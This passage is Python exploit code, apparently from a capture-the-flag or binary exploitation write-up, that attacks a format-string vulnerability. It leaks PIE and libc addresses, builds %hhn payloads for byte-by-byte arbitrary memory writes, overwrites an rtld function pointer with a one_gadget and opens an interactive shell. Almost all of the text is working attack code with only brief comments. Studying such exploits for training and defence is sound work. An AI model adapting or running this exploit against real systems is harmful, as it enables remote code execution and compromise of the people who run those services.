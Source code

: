 ```python
    if data == 0: #If the amount is 0, we shouldn't print anything before %n
        payload = f"%10$hhn".encode()
    else:
        payload = f"%{data}c%10$hhn".encode()
    
    #Calculate the padding for us to be able to put a pointer afterwards. The fmt_string for 8bit arbitrary write should never go over 16.
    padding = b'A'*(16-len(payload))
    payload+=padding

    #Add the pointer we want to write to
    payload+=p64(addr)

    # Send the payload
    send_format_string(payload)

def arb_write_64(addr,data):
    #Calculate all bytes to write
    to_write = [
        data & 0xff,
        (data >> 8) & 0xff,
        (data >> 16) & 0xff,
        (data >> 24) & 0xff,
        (data >> 32) & 0xff,
        (data >> 40) & 0xff,
        (data >> 48) & 0xff,
        (data >> 56) & 0xff,
        ]
    #Write everything one byte at a time
    for i in range(0,len(to_write)):
        arb_write_8(addr+i,to_write[i])

send_format_string(b'%10$p %15$p') #Format string used to leak
leaks = io.recvline()[:-1].split(b' ') #cut off the newline at the end of the input and split it at the space

#Convert to integers
pieleak = int(leaks[0],16)
libcleak = int(leaks[1],16)

#Calculate base address
piebase = pieleak - 0x1260
libcbase = libcleak - 0x26d0a

log.info(f"PIE BASE: {hex(piebase)}")
log.info(f"LIBC BASE: {hex(libcbase)}")

rtld_funcptr_offset = libcbase + 0x217f68 #Get the ptr we can use to jump
one_gadget = libcbase + 0x000cb7db #Grab one_gadget

r14ptr = libcbase + 0x1c0ae8 #The ptr that r14 points to when hitting our gadget

arb_write_64(r14ptr,u64(b'0bin/sh\x00')) #0 instead of / since it subtracts 1 from the first character

arb_write_64(rtld_funcptr_offset, one_gadget) #Overwrite the rtld function ptr

io.interactive()

``` 

